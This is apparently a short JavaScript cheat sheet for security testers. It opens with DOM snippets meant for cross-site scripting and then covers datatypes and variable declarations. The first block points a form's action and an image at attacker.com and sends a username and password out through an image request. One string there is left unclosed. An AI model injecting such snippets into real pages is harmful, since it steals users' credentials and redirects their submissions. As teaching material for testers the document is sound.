 ```javascript
document.getElementsByTagName("a")[1].href = "https://www.roguesecurity.in;

// Modify the image
document.getElementsByTagName('img')[0].src="https://attacker.com/image.png";

// Modify the form submit URL
document.forms[0].action = "http://attacker.com/";

// Create a new image (for data exfilteration)
new Image().src = "http://localhost:8001/?username="+username+"&password=" + password;

// Create new HTML element
var newElement = document.createElement("h1");

// split the url
var token = window.location.search.split('&')[1];

```

## Primitive Datatypes
* number (no separate float datatype)
* string
* boolean
* undefined
* null

## Variable Declaration

```javascript
// Declare number 
// Numbers are in "double-precision 64-bit" format
var value = 10;

// String
var value = "Hello World!!";

// Boolean
var value = true;

// undefined
// This type contains only 1 value which is 'undefined'
var value;

// null
// This type contains only 1 value which is 'null'
var value = null;
```

## Objects
